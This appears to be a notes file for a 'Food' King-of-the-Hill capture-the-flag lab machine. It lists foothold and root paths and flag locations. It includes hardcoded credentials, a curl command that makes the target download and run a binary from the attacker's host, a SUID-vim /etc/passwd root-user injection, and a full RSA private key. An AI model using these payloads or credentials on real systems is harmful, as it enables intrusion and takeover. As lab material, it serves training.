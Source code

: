 # Food KOTH machine

Foodhold options:

1. The following creds will get ssh access as `ramen`: `ramen:noodlesRTheBest`. These are gathered from the mysql DB exposed on 3306, which has the creds root:root and a single table called users in database users.
2. The website on port `:15065` will execute any request body posted to `/api/cmd`. This will get a foothold as the user `bread`.

  ```
  curl -d "wget $LHOST:1234/client -O /tmp/c && chmod +x /tmp/c && /tmp/c" $RHOST:15065/api/cmd
  ```
3. pasta's ssh key is below
4. port `46969` hosts telnet, `telnet <ip> 46969`. it gives the `food` user's creds encoded with vigenere (key o): `food:givemecookies`

Root options:

1. `/usr/bin/vim.basic` has the suid bit set. Use it to edit /etc/passwd, add a user line like `user3:$1$user3$rAGRVf5p2jYTqtqOW5cPu/:0:0:/root:/bin/bash` and su to root with `pass123`. vim.basic also has its gsuid bit set.
2. `/usr/bin/screen-4.5.0` has suid set, meaning that it can be used to write with root permissions. it overwrites so cant be used on passwd, but following (or just running) this will create a root shell: https://www.exploit-db.com/exploits/41154

Bread has write over `/etc/systemd/system/pings.service`, which runs their 15065 process. Not sure if this can be used to get root (since bread can't restart the service (though they do own it), or force the process to reload. Possibly replace main with a different binary? But it would still be run as 'bread'.

## Flags

- /root/flag
- /root/.profile
- /root/.mysql_history
- /home/bread/flag
- /home/food/.flag
- /home/tryhackme/flag7
- /var/flag.txt

## Pasta's SSH key

```
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAuMq9/6Il5rB2QANbYbuYOdb+16f9tIc/85ZW7vvelkzNHADr
HxUKmwcY53C0VWaOzQTzy+xFVwiKuVG3L2z2LQ2W6rSWbw3XCAy9BWnCmXewGOGJ
J7O0tWZoptlD4EY/1/YHdw9f49MWss7yJWT3V/pfytUrKJPiIaVbsHyahhbV1JLc
VfAq1jxPW3+LMbmvP6unvi5X0B4xoGbm64eTWQXHKak1A1wyjYFZtFz98ialAp/+
lwla6MpgJrtgeY6jjRHhkUd/WT0ud1JH+N4Lbldn1Z3Swc6TyEaDrO7v5YLe9ac0
jo/bfhr60X25apItar3VqkWicINZIrJMWSpzJwIDAQABAoIBADdnSdnYAqcMpxeA
Kii+NuC4jgWYb19t4YWlwIC8cTr84c4QlG3oQBrE4Pma9+ZW7l+XqYStXQjAHd98
GYEVmSVe2q2Z4TSAoMTgFNgHonmiweBj1lxZ68crYhsMLuaSCVg1gn121ZgX1Mld
dIozoFj3Tzsf+GWdGQJfcoMSiL3EngQgpxnYGBw5c1AC7DmxFr8NZq2ZlopvlO3Y
bgPWKLtORA4Mksbml8dM1yHsSq8Qg/dCtfe6ldGliqpLQMGj49UWvhbfr63c4+de
a/M247ykFXsW0q9e/ACYlDPFr177PMDK/0KRnY0JTtUeowoqYangAbp1ZTHZpNpj
hGEXGOkCgYEA7TDAu8bl+wDdl6XSdWZIJW2v7iV5ksOPBIqRU8xDX05nnnTY4uqO
9OKPwQo2Qx1gmnZpDAmi+ubW2TVtO75nPqcd/mofycrsKCvaZoGGfKkqyIfdPLZx
8pUsqd1gT2PPK+R22x9tYurlXCJjP2wXEOznBdyxbLYoYzRaIv8weTsCgYEAx3I8
8jWYddhl+wklyuKNX/hqeNgWSZAsUq4vyXK5x4u7Vqd9g0lyJhMCMHBCa7rEDCPf
U6mFhPeGDmqrECxZ9xfRofZq+AwJHAXxcmoou7z7S1Ga1P8N1y7LQGgmcrBw2lkf
kViBaMNGJFOLgtR/QbKzXa3TlfRSZ5sIy0N+7wUCgYEAnqsrczIV7PhiRC0Agdqf
TrJ2q0fUcRJzHOWZXEZbl2j6tiySXhHs+fKJmeg77l+7nPizQwM7TL6ZYQp1fS7d
IDNpRCU4CKS/oAvd+Q6Sqdf8r9L7c77UsSOLkkJuSA2LrGAUBnealD5wmlbCr82e
DIt97BT7d67Pi7WcyqaNhbsCgYB9TzErnLDlmci5KM4t4pmgqpt6wYl/Pq4aZIZx
szs2PHy/vQwG6KZndZnyhRW2SenTFtbB4ciZ+kqn1C0WREdiD/0OHZynrCgtCy7g
DAL7sYjRkbwOBxHTGPtqxAUkGedNyKEk2M6127q+KB+HW6t4w6YePZCqro73uViV
HRsrYQKBgQCaCQD3EX7im9B+CL2XfTCs3fp/WgL6Xw0otiMKHqEuBM9upU4LYs4F
jXaj5A1iFJibD6YoGGBt3sc7Wl2cS4YJO24GtOQlsgK/W2+VQANwQaYZOJPwrR2c
19IyrUe3VZjDbJQpLO1TwBdKj/MpcQhhB+m6WXhVYWkixfTTM6VSyg==
-----END RSA PRIVATE KEY-----
```
